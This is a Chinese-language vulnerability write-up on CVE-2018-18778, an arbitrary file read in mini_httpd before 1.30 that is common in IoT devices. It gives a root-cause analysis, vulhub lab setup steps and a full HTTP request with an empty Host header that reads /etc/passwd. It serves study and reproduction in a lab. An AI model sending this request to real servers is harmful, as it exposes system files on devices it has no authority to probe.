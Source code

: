 ```yaml
---
title: 'mini_httpd任意文件读取漏洞（CVE-2018-18778）'
date: Tue, 06 Oct 2020 07:31:19 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 前言

Mini\_httpd是一个微型的Http服务器，在占用系统资源较小的情况下可以保持一定程度的性能（约为Apache的90%），因此广泛被各类IOT（路由器，交换器，摄像头等）作为嵌入式服务器。而包括华为，zyxel，海康威视，树莓派等在内的厂商的旗下设备都曾采用Mini\_httpd组件。

#### 影响版本

ACME mini\_httpd before 1.30

#### 漏洞分析

在mini\_httpd开启虚拟主机模式的情况下，用户请求http://HOST/FILE将会访问到当前目录下的HOST/FILE文件。 (void) snprintf( vfile, sizeof(vfile), "%s/%s", req\_hostname, f ); 见上述代码，分析如下： 当HOST=example.com、FILE=index.html的时候，上述语句结果为example.com/index.html，文件正常读取。 当HOST为空、FILE=etc/passwd的时候，上述语句结果为/etc/passwd。 后者被作为绝对路径，于是读取到了/etc/passwd，造成任意文件读取漏洞。 环境搭建```
cd vulhub/mini_httpd/CVE-2018-18778

docker-compose up -d

启动mini_httpd 1.29： 
![](mini_httpd%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2018-18778%EF%BC%89/20200619123111737.png) 

环境启动后，访问http://your-ip:8080即可看到Web页面。

#### 漏洞复现

发送请求是将Host置空，PATH的值是文件绝对路径：```
GET /etc/passwd HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close 
![](mini_httpd%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2018-18778%EF%BC%89/20200619123140386.png)![](mini_httpd%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2018-18778%EF%BC%89/20200619123155220.png)
